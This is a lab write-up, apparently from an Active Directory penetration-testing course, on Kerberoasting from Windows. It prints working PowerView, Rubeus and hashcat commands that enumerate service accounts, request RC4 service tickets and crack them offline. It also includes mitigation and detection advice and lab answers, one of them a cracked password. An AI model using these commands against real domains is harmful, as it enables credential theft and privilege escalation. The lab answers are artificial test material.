

<div align='center'>

# **Lab 14: Kerberoasting - from Windows** 

</div>

## **Using PowerView to Extract TGS Tickets**

**Enumerating SPN accounts**

```powershell
Get-DomainUser * -spn | select samaccountname
```


**Using PowerView to Extract TGS Tickets for a Specific User (svc_vmwaresso), exporting Ticket to a CSV File**

```powershell
Get-DomainUser -Identity svc_vmwaresso | Get-DomainSPNTicket -Format Hashcat | Export-Csv vmware_tgs.csv
```

We get a file [vmware_tgs.csv](../docs/vmware_tgs.csv) containing the ticket for the user svc_vmwaresso



## **Using Rubeus**

```powershell
Rubeus.exe kerberoast /stats
```


Look at the result, we can see that there are 12 Kerberoastable users, 11 of which support RC4 encryption for ticket requests and one of which support AES 128/256

Request tickets for accounts with the `admincount` attribute set to `1`. Using `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat

```powershell
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```


Using `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket since the AES 128/256 encryption takes a much longer time to crack than an RC4

```powershell
Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

Note: This only works in a domain with Domain Controllers running on Server 2016 or earlier

## **Mitigation & Detection**

**Mitigation**
- Set a long and complex password or passphrase that does not appear in any word list
- Use [Managed Service Accounts (MSA)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009), and [Group Managed Service Accounts (gMSA)](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), which use very complex passwords, and automatically rotate on a set interval or accounts set up with LAPS
- Restricting the use of the RC4 algorithm, particularly for Kerberos requests by service accounts.
- Domain Admins and other highly privileged accounts should not be used as SPN accounts

**Detection**

- Observe abnormal number of TGS-REQ and TGS-REP requests and responses, signaling the use of automated Kerberoasting tools
- Domain controllers can be configured to log Kerberos TGS ticket requests by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy

    

    Doing so will generate two separate event IDs: [4769](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested, and [4770](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed. A large amount of 4769 event IDs from one account within a short period may indicate an attack

## **Question**

- What is the name of the service account with the SPN 'vmware/inlanefreight.local'?

    ```powershell
    Get-DomainUser * -spn | select samaccountname, serviceprincipalname | findstr vmware
    ```

    

    **Answer**: svc_vmwaresso

    

- Crack the password for this account and submit it as your answer.

    ```zsh
    hashcat -m 13100 vmware_tgs /usr/share/wordlists/rockyou.txt --force
    ```

    

    **Answer**: Virtual01

    